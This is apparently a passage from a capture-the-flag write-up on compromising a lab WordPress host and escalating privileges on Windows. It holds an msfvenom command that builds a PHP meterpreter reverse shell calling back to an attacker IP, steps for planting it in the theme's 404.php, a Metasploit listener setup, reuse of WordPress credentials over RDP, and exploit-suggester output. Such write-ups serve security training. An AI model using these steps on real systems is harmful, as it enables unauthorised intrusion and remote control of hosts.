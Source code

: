 This is the credentials for the Wordpress login.

After logging we have access to the theme editor, Using this we can gain a reverse shell.

Appearance > Theme editor > 404.php Let's use a php reverse shell on this page.

For this I used msfvenom to create a meterpreter reverse php shell.
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.9.33.138 LPORT=1337 -f raw > shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1112 bytes
```
Now paste this `shell.php` content into the `404.php` file on the wordpress site. Like so.

<p align="center">
  <img class="image" width="auto" height="auto" src="https://imgur.com/zYT0fsW.png">
</p>

Now to set up a MSF meterpreter listner!

```
msfconsole
use exploit/multi/handler
```
These are the settings I used. Take note of the payload being a php meterpreter reverse tcp.

<p align="center">
  <img class="image" width="auto" height="auto" src="https://imgur.com/aOGpZhc.png">
</p>

Now we have a meterpreter shell lets privesc!

So after playing around for a while the meterpreter shell I had kept flaking in on me and not allowing me to use any commands. I went back to the start and remembered the host has RDP on, I tried the same creds from the wordpress account....BOOM! RDP access. Really annoyed I didn't see this earlier!.

I used Remmina which is a RDP program for linux. After logging in I got the `user.txt` flag from the desktop. Now on the priv esc!

I opened a cmd prompt and used `systeminfo` copied this onto my attacking machine into a `.txt`. I used a program called Windows exploit suggester.

### What is windows exploit suggester?
This script uses the input from `systeminfo` and searches against a database to determine what exploits you can use by looking at the patches,hotfixes etc the system has installed.

Here is is. First you have to pull the latest database file.

```
./windows_exploit_suggester.py --update  #This pulls the latest database
./windows-exploit-suggester.py --database 2020-11-25-mssb.xls --systeminfo sysinfo.txt -l --ostext 'Windows 10 64-bit'
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] getting OS information from command line text
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 1 hotfix(es) against the 160 potential bulletins(s) with a database of 137 known exploits
[*] there are now 160 remaining vulns
[*] searching for local exploits only
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 10 64-bit'
[*]
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
```